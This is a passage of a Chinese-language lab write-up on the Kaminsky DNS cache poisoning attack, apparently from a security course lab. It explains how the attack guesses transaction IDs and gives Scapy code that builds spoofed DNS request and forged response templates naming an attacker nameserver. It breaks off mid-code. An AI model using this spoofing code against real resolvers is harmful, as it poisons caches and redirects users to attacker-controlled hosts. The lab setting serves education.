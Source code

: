 wireshark成功抓到包并解析：

![image-20220602165214171](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012337751.png)



## Task 4: Launch the Kaminsky Attack

> Kaminsky攻击的原理：发送多个不存在的域名请求（如twysw.example.com），此时DNS服务器会向其权威服务器请求，此时攻击者发送大量伪造的DNS回应，并猜测transaction ID，在权威服务器回应之前到达，如果猜对transaction ID的话，就能成功写入local DNS缓存了。
>
> 几个要点：
>
> 1. 发送多个不存在的域名请求：是因为如果一次攻击失败了，那么local DNS缓存中就写入了正确的DNS记录，此时再次对同一个域名请求，就不会查询而直接发回缓存了，所以用每次不同的域名进行多轮尝试
> 2. transaction ID只有16位，所以通过大量猜测能成功
> 3. 写入的时候在权威字段加入攻击者的权威服务器，对整个域进行攻击（An会被cache，当ad和an在同一个domain（2级域名）下时，也会被cache）

由于在Kaminsky attack中速度至关重要，攻击者能发送的数据包越多，成功率就越高，所以使用Scapy和C的混合方法，先用Python生成包的模板，再通过C对指定偏移进行修改。

### `req.py`

首先类似task2，使用Scapy生成一个DNS request模板，把包存储在文件`ip_req.bin`中。`task4_req.py`：

```python
from scapy.all import *
# C will modify the qname

Qdsec = DNSQR(qname='aaaaa.example.com') 
# C will modify the id

dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)    

ip = IP(src='10.9.0.5', dst='10.9.0.53')	# dst: local dns

udp = UDP(dport=53, sport=1234, chksum=0)
request = ip/udp/dns

with open('ip_req.bin','wb')as f:
    f.write(bytes(request))
```

`python3 task4_req.py`生成`ip_req.bin`，用二进制编辑器打开文件，查看域名的偏移是`0x29`，即41。

![image-20220602203330121](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012337672.png)

### `resp.py`

然后再仿照task3，使用Scapy构造DNS response模板，把包存储在文件`ip_resp.bin`中。`task4_resp.py`：

```python
from scapy.all import *

name = 'aaaaa.example.com'
domain = 'example.com'
ns = 'ns.attacker32.com'
Qdsec = DNSQR(qname=name)   # C will modify the qname

# Answer section

Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200) 
# Authority section

NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)   
# C will modify the id

```